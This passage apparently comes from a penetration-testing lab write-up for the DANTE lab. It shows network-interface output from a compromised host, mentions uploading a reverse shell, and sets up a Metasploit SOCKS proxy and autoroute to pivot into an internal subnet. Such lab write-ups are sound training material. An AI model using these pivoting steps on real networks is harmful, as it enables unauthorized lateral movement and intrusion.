

## Preparing the Pivoting:

Now that we totally got access to the DANTE-WEB-NIX01 now we found out that the machine had 2 NICs where one was pointing to another subnet:

```
balthazar@DANTE-WEB-NIX01:/tmp$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4d:bb brd ff:ff:ff:ff:ff:ff
    inet 172.16.1.100/24 brd 172.16.1.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4dbb/64 scope link 
       valid_lft forever preferred_lft forever
[1]+  Segmentation fault      (core dumped) ./backup
```

That 172.16.1.0/24 will be out pivot internal network so to make my life easier I will upload a new reverse shell and use socks server to pivot in and out.



next we setup the socks v4 proxy:

```
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


View the full module info with the info, or info -d command.

msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) >
```

lastly we need to add the routes to address traffic to the itnernal network via pivot machine:

```
msf6 post(multi/manage/autoroute) > show options 

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  2                yes       The session to run this module on
   SUBNET   172.16.1.0       no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 172.16.1.100
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.1.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

* * *